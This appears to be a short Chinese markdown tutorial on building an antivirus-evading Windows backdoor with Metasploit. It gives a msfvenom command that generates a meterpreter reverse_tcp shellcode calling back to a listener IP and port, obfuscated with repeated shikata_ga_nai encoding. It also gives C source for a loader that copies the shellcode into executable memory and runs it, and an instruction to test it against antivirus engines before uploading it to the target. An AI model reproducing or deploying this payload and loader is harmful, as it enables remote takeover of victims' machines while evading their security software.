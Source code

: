 # Metasploit 生成免杀 C 过 360

1. 生成shellcode

```msf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.12 LPORT=9090 -e x86/shikata_ga_nai -i 8 -f c > shell.c

cat shell.c
```

2. 编译C程序

```C
#include <stdio.h>
#include <windows.h>

unsigned const char payload[] = "这里是生成的shellcode";

//字节数可改动
size_t size = 580;

int main(int argc, char** argv) {

    char* code;

    printf("Hello Hack saul!\n");

    code = (char*)VirtualAlloc(NULL, size, MEM_COMMIT,PAGE_EXECUTE_READWRITE);

    memcpy(code, payload, size); 

    ((void(*)())code)();

    return(0);
}
```

3. **查杀**后再上传至目标机

